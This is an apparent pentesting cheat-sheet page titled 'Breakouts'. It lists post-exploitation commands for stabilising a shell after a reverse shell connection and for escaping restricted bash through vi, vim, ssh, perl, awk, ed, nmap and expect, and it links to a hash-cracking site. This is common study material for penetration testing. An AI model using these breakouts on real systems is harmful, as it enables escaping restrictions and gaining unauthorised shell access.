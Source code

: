 # Breakouts

==============================================================================

[**S1REN's COMMON**](Breakouts/COMMON.md)

[Reverse shells](Breakouts/Reverse shells.md)

[CVE’s](Breakouts/CVE’s.md)

[**Privilege Escalation**](Breakouts/Privilege Escalation.md)

[Tools](Breakouts/Tools.md)

===============================================================================

                                                                                [shell after a reverse shell connection]

===============================================================================

`shell after a reverse shell connection`

```bash
python -c 'import pty;pty.spawn("/bin/bash")'
```

```bash
python -c 'import os; os.system("/bin/sh")'
```

`Set PATH TERM and SHELL if missing:`

```bash
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```

```bash
export TERM=xterm-256color;export SHELL=bash
```

```makefile
Out of the gate.

python -c 'import pty; pty.spawn("/bin/bash")'
OR
python3 -c 'import pty; pty.spawn("/bin/bash")'
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/tmp
export TERM=xterm-256color
alias ll='ls -lsaht --color=auto'
Keyboard Shortcut: Ctrl + Z (Background Process.)
stty raw -echo ; fg ; reset
stty columns 200 rows 200

 

* Grab a valid tty.
* What OS are you on? Grab access to those binaries fast by exporting each environment variable. Debian/CentOS/FreeBSD
* Want a color terminal to easily tell apart file permissions? Directories? Files?
* Fastest way to list out the files in a directory, show size, show permissions, human readable.
* Make this shell stable.

Is this rbash (Restricted Bash)? PT1
$ vi
:set shell=/bin/sh
:shell

$ vim
:set shell=/bin/sh
:shell

Is this rbash (Restricted Bash)? PT2
(This requires ssh user-level access)
ssh user@127.0.0.1 "/bin/sh"
rm $HOME/.bashrc
exit
ssh user@127.0.0.1
(Bash Shell)

Is python present on the target machine?
python -c 'import pty; pty.spawn("/bin/bash")'
python -c 'import pty; pty.spawn("/bin/sh")'

Is perl present on the target machine?
perl -e 'exec "/bin/bash";'
perl -e 'exec "/bin/sh";'

Is AWK present on the target machine?
awk 'BEGIN {system("/bin/bash -i")}'
awk 'BEGIN {system("/bin/sh -i")}'

Is ed present on the target machines?
ed
!sh

IRB Present on the target machine?
exec "/bin/sh"

Is Nmap present on the target machine?
nmap --interactive
nmap> !sh

Expect:

expect -v
  expect version 5.45.4
  
$ cat > /tmp/shell.sh <<EOF
#!/usr/bin/expect
spawn bash
interact
EOF

$ chmod u+x /tmp/shell.sh
$ /tmp/shell.sh
```

==================================================================================================

[Best Hash Cracker] [https://hashes.com/en/decrypt/hash](https://hashes.com/en/decrypt/hash)

---
